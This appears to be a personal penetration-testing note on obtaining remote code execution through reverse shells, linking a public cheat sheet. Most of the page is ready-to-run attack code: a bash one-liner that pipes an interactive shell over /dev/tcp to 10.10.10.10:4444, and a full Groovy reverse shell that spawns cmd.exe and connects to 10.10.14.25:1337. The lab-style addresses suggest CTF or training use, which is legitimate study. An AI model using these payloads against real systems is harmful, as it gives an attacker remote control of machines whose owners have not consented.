 
### General Notes

> Used to get remote code execution (RCE).

Can be found online: [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

---

### Finding the Right Reverse shell

Using the cheat sheet above, it has different techniques. Check first for the presence of that programming language or tool on the system before running these commands to make sure they can work.

> For example, to run the `python` one-liner, first make sure we can execute python on the target machine. Might work for `python` and not `python3`, so try all cases.

----
##### Bash Script to connect to our machine

> Set the [[IP]] address and [[Port]].
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
>`script.sh`

> Make sure the file is executable.
```shell
chmod +x script.sh
```

---
##### Groovy script to connect to our machine

``` groovy
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

